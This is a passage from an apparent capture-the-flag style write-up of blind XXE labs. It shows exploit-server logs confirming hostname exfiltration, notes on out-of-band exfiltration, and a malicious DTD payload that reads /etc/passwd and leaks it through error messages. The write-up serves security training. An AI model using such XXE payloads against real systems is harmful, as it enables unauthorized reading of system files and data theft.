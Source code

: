 
### 📡 Step 3: Monitor Exploit Server for Interaction

* Go to your **exploit-server access logs**.
* You should see a request like:

  ```
  GET /?x=TARGET-HOSTNAME
  ```

![image](https://github.com/user-attachments/assets/88481fb1-d1a1-40b9-84bc-11a7c48c4252)

  This confirms that the XXE payload successfully caused the server to fetch and process the malicious DTD, and exfiltrate the hostname.

   Submit the hostname to solve the lab.
    
  ![image](https://github.com/user-attachments/assets/04d525f1-8a3a-48e8-835a-c33458f5088a)

---

### ✅ Key Takeaway

*  IF WE CAN'T EXFILTRATE DATA IN-BAND, TRY CALLING OUR EXTERNALLY-HOSTED SERVER

*  IF THERE'S NO EGRESS FILTERING WE CAN BEGIN OOB DATA EXFILTRATION
---

### LAB 6 - Exploiting blind XXE to retrieve data via error messages

### Lab Description

![image](https://github.com/user-attachments/assets/4ccc1ff1-a225-4dc6-8126-4d9abcc6fd54)


### Solution



### 📁 Step 1: Host Malicious DTD on Exploit Server

Create and upload the following **malicious DTD** to your exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

![image](https://github.com/user-attachments/assets/c7ec4834-0984-4340-abf8-fc05f065d42d)


#### 💡 How It Works:
